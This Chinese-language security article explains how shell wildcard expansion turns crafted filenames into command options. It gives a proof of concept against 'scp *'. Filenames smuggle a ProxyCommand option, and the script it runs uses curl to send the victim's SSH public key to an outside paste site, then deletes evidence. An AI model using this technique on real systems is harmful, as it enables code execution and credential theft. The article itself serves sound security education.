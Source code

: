 # Linux 通配符可能产生的问题

2014/06/24 17:37 | [爱小狐狸的小螃蟹](http://drops.wooyun.org/author/爱小狐狸的小螃蟹 "由 爱小狐狸的小螃蟹 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

from:https://dicesoft.net/projects/wildcard-code-execution-exploit.htm

## 0x00 通配符

* * *

当你在一个 bash 命令行中输入“*”时，bash 会扩展到当前目录的所有文件，然后将他们全部作为参数传递给程序。例如：`rm *`，将会删除掉当前目录的所有文件。

## 0x01 文件名被当做参数

* * *

大多数的命令行程序受此影响。例如 ls 命令，当不适用任何参数时，输出是这个样子的：

```
[stephen@superX foo]$ ls
asdf.txt  foobar  -l

```

如果你想要知道这些文件所属的组和用户，你可以通过”-l"参数来查看：

```
[stephen@superX foo]$ ls -l
total 0
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 -l

```

注意，有一个名字是“-l”的文件，我们试试“ls *”会发生什么。

```
[stephen@superX foo]$ ls *
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar

```

与之前不同的是"ls *” 没有输出-l 文件，-l 文件被当做了此命令的参数。

此条命令相当于运行：

```
[stephen@superX foo]$ ls asdf.txt foobar -l
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar  

```

## 0x02 安全问题

* * *

此问题可能导致一些安全问题，当有人参数当中带有一个通配符，又没有事先检查目录下的文件名称。这可能被用来攻击别人电脑。

这个问题是众所周知的，在[`seclists.org/fulldisclosure/2011/Sep/190`](http://seclists.org/fulldisclosure/2011/Sep/190)已经有关于此问题的讨论。

## 0x03 Proof of Concept Exploit

* * *

为了证明这个问题可以转化为一个任意代码执行攻击，我们尝试攻击“scp”命令，scp 命令提供了-o 选项，配置 ssh，SSh 有涉及运行命令的选项，我们可以利用这一点，让我们的脚本运行。

假设我们有一个目录的控制权限，在该目录下受害者将运行以下命令（想象一下，用户只下载一个 web 应用程序的源代码，并上传到他们的网络服务器上）：

```
$ scp * user@example.org:/var/www/

```

为了利用这个命令，在目录下我们需要放几个文件：

```
"-o" - SCP 将会把这个文件当做 "-o” 参数。
"ProxyCommand sh supercool.sh %h %p" - SCP 将会把这个文件当做 "-o" 的一个参数。
"supercool.sh" - 这个脚本将会被执行。
"zzz.txt" - 没有任何用处的测试文件。 
```

在 supercool.sh 文件里，有一些恶意的命令：

```
#!/bin/sh

# Upload their SSH public key to the Internet, and put a scary message in /tmp/.
echo "By @DefuseSec and @redragonx..." > /tmp/you-have-been-hacked.txt
echo "This could have been your private key..." >> /tmp/you-have-been-hacked.txt
curl -s -d "jscrypt=no" -d "lifetime=864000"                                \
        -d "shorturl=yes" --data-urlencode "paste@$HOME/.ssh/id_rsa.pub"    \
        https://defuse.ca/bin/add.php -D - |                                \
        grep Location | cut -d " " -f 2 >> /tmp/you-have-been-hacked.txt

# Delete evidence of our attack.
rm ./-o ProxyCommand\ sh\ supercool.sh\ %h\ %p 
echo > ./supercool.sh

# Do what ProxyCommand is supposed to do.
nc -p 22332 -w 5 $1 $2

```

当受害者执行命令时：

```
$ scp * user@example.org:/var/www/
supercool.sh
zzz.txt

```

当他检查自己的/tmp 目录下的时候将会看到：

```
$ cat /tmp/you-have-been-hacked.txt
By @DefuseSec and @redragonx...
This could have been your private key...

https://defuse.ca/b/QQ3nxADu

```

可以在这里下载完整的 poc 文件：[poc.zip](http://static.wooyun.org/20141017/2014101711552836274.zip)

版权声明：未经授权禁止转载 [爱小狐狸的小螃蟹](http://drops.wooyun.org/author/爱小狐狸的小螃蟹 "由 爱小狐狸的小螃蟹 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [linux symbolic link attack tutorial](http://drops.wooyun.org/papers/4762)
*   [WordPress < 3.6.1 PHP 对象注入漏洞](http://drops.wooyun.org/papers/596)
*   [分析下难得一见的 ROR 的 RCE（CVE－2013－0156）](http://drops.wooyun.org/papers/61)
*   [snmp 弱口令引起的信息泄漏](http://drops.wooyun.org/tips/409)
*   [Exploiting “BadIRET” vulnerability (CVE-2014-9322, Linux kernel privilege escalation)](http://drops.wooyun.org/papers/4860)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)